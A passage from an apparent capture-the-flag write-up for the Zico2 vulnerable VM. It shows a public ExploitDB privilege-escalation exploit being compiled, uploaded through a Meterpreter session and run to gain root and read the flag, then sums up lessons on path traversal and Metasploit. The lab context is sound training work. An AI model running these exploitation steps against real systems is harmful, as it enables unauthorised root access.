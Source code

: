 The ExploitDB page contained the C source for the exploit, which I downloaded to my Kali VM and compiled using GCC. Then I uploaded it to my target using the Meterpreter shell I acquired earlier, and executed it to get a root shell.

~~~
>>On Kali VM
gcc 33589.c -o root

>>On meterpreter session
meterpreter > upload /root/btr/zico2/root /tmp/root
[*] uploading  : /root/btr/zico2/root -> /tmp/root
[*] uploaded   : /root/btr/zico2/root -> /tmp/root
meterpreter > execute -f "chmod" -a "a+x /tmp/root"
Process 2263 created.
meterpreter > ls
Listing: /tmp
=============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100755/rwxr-xr-x  13336   fil   2017-12-17 20:55:02 +0000  root
100755/rwxr-xr-x  746944  fil   2017-12-17 20:14:36 +0000  shell
100644/rw-r--r--  746944  fil   2017-12-17 20:14:36 +0000  shell.1

meterpreter > execute -ci -f "/tmp/root" -a "0"
Process 2292 created.
Channel 18 created.
whoami
root
ls /root
flag.txt
less /root/flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
# 
# Hope you enjoyed! 
# 
# 
#
#
~~~

So what did I learn from this?

Firstly, I learned that combining Path Traversal with the ability to write files to disk can give you Remote Code Execution. This seems fairly obvious in hindsight, but it didn't occur to me until now.

I also learned a lot about how Metasploit works, how to create payloads using MSFVenom and how to use a Meterpreter shell.